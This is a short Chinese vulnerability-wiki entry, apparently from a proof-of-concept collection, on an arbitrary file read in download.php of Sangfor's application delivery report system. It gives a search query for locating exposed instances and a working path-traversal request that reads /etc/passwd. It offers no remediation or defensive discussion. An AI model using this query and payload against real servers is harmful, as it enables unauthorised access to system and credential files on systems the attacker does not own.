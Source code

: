 # 深信服 应用交付报表系统 download.php 任意文件读取漏洞

## 漏洞描述

深信服 应用交付报表系统 download.php文件存在任意文件读取漏洞，攻击者通过漏洞可以下载服务器任意文件

## 漏洞影响

<a-checkbox checked>深信服 应用交付报表系统</a-checkbox></br>	

## 网络测绘

<a-checkbox checked>app="SANGFOR-应用交付报表系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1646063330818-50320d99-80e6-4f24-9ac7-1de5acf8d3d6.png)

验证POC

```javascript
/report/download.php?pdf=../../../../../etc/passwd
```

![img](/assets/PeiQi-Wiki/img/1646063383225-b9436429-8a97-4675-9a24-29539b3e5be5.png)